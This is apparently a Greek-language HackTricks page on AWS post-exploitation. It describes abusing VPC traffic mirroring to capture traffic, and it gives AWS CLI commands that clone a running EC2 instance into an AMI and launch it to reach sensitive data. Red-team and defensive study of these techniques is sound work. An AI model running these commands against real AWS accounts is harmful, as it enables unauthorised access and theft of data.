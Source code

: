 # AWS - EC2, EBS, SSM & VPC Post Exploitation

<details><summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## EC2 & VPC

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **Κακόβουλος Καθρέπτης VPC -** `ec2:DescribeInstances`, `ec2:RunInstances`, `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`, `ec2:CreateTrafficMirrorTarget`, `ec2:CreateTrafficMirrorSession`, `ec2:CreateTrafficMirrorFilter`, `ec2:CreateTrafficMirrorFilterRule`

Ο καθρέπτης κίνησης VPC **διπλασιάζει την εισερχόμενη και εξερχόμενη κίνηση για τις EC2 περιπτώσεις εντός μιας VPC** χωρίς την ανάγκη να εγκαταστήσετε οτιδήποτε στις ίδιες τις περιπτώσεις. Αυτή η διπλασιασμένη κίνηση θα μπορούσε συνήθως να σταλεί σε κάτι όπως ένα σύστημα ανίχνευσης διείσδυσης δικτύου (IDS) για ανάλυση και παρακολούθηση.\
Ένας επιτιθέμενος θα μπορούσε να καταχραστεί αυτό για να καταγράψει όλη την κίνηση και να αποκτήσει ευαίσθητες πληροφορίες από αυτήν:

Για περισσότερες πληροφορίες ελέγξτε αυτήν τη σελίδα:

{% content-ref url="aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### Αντιγραφή Εκτελούμενης Περίπτωσης

Οι περιπτώσεις συνήθως περιέχουν κάποιου είδους ευαίσθητες πληροφορίες. Υπάρχουν διάφοροι τρόποι για να μπείτε μέσα (ελέγξτε τα [κόλπα ανόδου προνομίων EC2](../../aws-privilege-escalation/aws-ec2-privesc.md)). Ωστόσο, ένας άλλος τρόπος για να ελέγξετε τι περιέχει είναι να **δημιουργήσετε ένα AMI και να εκτελέσετε μια νέα περίπτωση (ακόμα και στον δικό σας λογαριασμό) από αυτό**:

```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

```